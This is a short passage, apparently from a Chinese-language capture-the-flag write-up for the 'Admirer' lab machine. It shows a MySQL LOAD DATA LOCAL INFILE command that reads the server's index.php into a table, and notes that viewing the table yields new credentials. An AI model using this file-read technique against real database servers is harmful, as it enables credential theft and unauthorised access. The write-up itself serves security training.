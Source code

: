 ```bash
load data local infile '../index.php'        #因为index.ph在当前页面的上一层，所以要加../
into table evil
fields terminated by "/n"
```

![image-20200625123602431](assets/Admirer_187.assets/image-20200625123602431.png)

执行成功，点击左侧操作面板的select，查看存入表单的信息

![image-20200625124018980](assets/Admirer_187.assets/image-20200625124018980.png)

得到新的凭证

![image-20200625124106205](assets/Admirer_187.assets/image-20200625124106205.png)
